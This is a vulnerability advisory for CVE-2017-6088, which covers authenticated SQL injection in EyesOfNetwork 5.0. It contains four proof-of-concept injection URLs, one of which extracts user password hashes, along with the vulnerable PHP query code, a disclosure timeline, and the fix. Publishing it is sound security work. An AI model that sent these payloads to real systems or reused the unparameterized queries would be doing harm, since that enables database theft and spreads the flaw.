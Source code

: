 # [CVE-2017-6088] EON 5.0 Multiple SQL Injection

## Description

EyesOfNetwork ("EON") is an OpenSource network monitoring solution.

## SQL injection (authenticated)

The Eonweb code does not correctly filter arguments, allowing
authenticated users to inject arbitrary SQL requests.

**CVE ID**: CVE-2017-6088

**Access Vector**: remote

**Security Risk**: medium

**Vulnerability**: CWE-89

**CVSS Base Score**: 6.0

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:L

### Proof of Concept 1 (root privileges)

The following HTTP request allows an attacker (connected as
administrator) to dump the database contents using SQL injections inside
either the `bp_name` or the `display` parameter. These requests are
executed with MySQL root privileges.

```
https://eonweb.local/module/admin_bp/php/function_bp.php?action=list_process&bp_name=&display=%27or%271%27=%271

https://eonweb.local/module/admin_bp/php/function_bp.php?action=list_process&bp_name=%27or%271%27=%271&display=1
```

#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ged_functions.php` file, line 114:

```
function list_process($bp,$display,$bdd){
    $sql = "select name from bp where is_define = 1 and name!='".$bp."'
and priority = '" . $display . "'";
    $req = $bdd->query($sql);
    $process = $req->fetchall();

    echo json_encode($process);
}
```

### Proof of Concept 2

The following HTTP request allows an attacker to dump the database
contents using SQL injections inside the `type` parameter:

```
https://eonweb.local/module/monitoring_ged/ajax.php?queue=active&type=1%27+AND+(SELECT+sleep(5))+AND+%271%27=%271&owner=&filter=equipment&search=&ok=on&warning=on&critical=on&unknown=on&daterange=&time_period=&ack_time=
```

#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ajax.php` file, line 64:

```
if($_GET["type"] == 0){
  $ged_where = "WHERE pkt_type_id!='0'";
} else {
  $ged_where = "WHERE pkt_type_id='".$_GET["type"]."'";
}
$gedsql_result1=sqlrequest($database_ged,"SELECT
pkt_type_id,pkt_type_name FROM pkt_type $ged_where AND pkt_type_id<'100';");
```

### Proof of Concept 3

The following HTTP request allows an attacker to dump the database
contents using SQL injections inside the `search` parameter:

```
https://eonweb.local/module/monitoring_ged/ajax.php?queue=active&type=1&owner=&filter=equipment&search='+AND+(select+sleep(5))+AND+'1'='1&ok=on&warning=on&critical=on&unknown=on&daterange=&time_period=&ack_time=
```


#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ged_functions.php` file, line 129.

```
if($search != ""){
    $like = "";
    if( substr($search, 0, 1) === '*' ){
        $like .= "%";
    }
    $like .= trim($search, '*');
    if ( substr($search, -1) === '*' ) {
        $like .= "%";
    }

    $where_clause .= " AND $filter LIKE '$like'";
}
```


### Proof of Concept 4

The following HTTP request allows an attacker to dump the database
contents using SQL injections inside the `equipment` parameter:

```
https://eonweb.local/module/monitoring_ged/ged_actions.php?action=advancedFilterSearch&filter=(select+user_passwd+from+eonweb.users+limit
1)&queue=history
```


#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ged_functions.php` file, line 493:

```
$gedsql_result1=sqlrequest($database_ged,"SELECT
pkt_type_id,pkt_type_name FROM pkt_type WHERE pkt_type_id!='0' AND
pkt_type_id<'100';");


while($ged_type = mysqli_fetch_assoc($gedsql_result1)){
    $sql = "SELECT DISTINCT $filter FROM
".$ged_type["pkt_type_name"]."_queue_".$queue;

    $results = sqlrequest($database_ged, $sql);
    while($result = mysqli_fetch_array($results)){
        if( !in_array($result[$filter], $datas) && $result[$filter] != "" ){
            array_push($datas, $result[$filter]);
        }
    }
}
```


## Timeline (dd/mm/yyyy)

* 01/10/2016 : Initial discovery.
* 09/10/2016 : Fisrt contact with vendor.
* 23/10/2016 : Technical details sent to the security contact.
* 27/10/2016 : Vendor akwnoledgement and first patching attempt.
* 16/02/2017 : New tests done on release candidate 5.1. Fix confirmed.
* 26/02/2017 : 5.1 release. Waiting for 2 weeks according to our
repsonsible disclosure agreement.
* 14/03/2017 : Public disclosure.

Thank you to EON for the fast response.

## Solution

Update to version 5.1.

## Affected versions

* Version <= 5.0

## Credits

* Nicolas SERRA <n.serra@sysdream.com>

-- SYSDREAM Labs <labs@sysdream.com>
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1
* Website: https://sysdream.com/
* Twitter: @sysdream